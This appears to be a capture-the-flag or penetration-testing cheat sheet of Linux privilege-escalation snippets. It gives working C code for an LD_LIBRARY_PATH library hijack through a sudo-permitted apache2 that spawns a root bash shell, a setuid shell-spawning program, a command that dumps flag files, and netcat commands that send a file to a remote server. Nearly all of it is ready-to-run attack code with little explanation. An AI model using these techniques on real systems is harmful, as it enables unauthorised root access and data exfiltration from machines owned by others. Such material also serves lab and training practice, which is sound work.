 ```
$ cat library.c

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}

# Usage
$ sudo -l
(root) NOPASSWD: /usr/sbin/apache2

$ ldd /usr/sbin/apache2
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f356c962000)

$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /absolute/path/library.c
$ sudo LD_LIBRARY_PATH=/tmp apache2
```

# C Shell Spawn

```
$ cat shell_spwan.c

int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

# Dump Flags

```
find / -type f -iname '*.flag' -exec echo{} \; -exec cat {} \; 2>/dev/null
```

# Send File with NetCat

### On Server (Receiver)
```
nc -lv -p 1337 > {LOCAL_FILE} < /dev/null
```

### On Client (Sender)
```
cat {FILE} | netcat {SERVER_IP} 1337
```
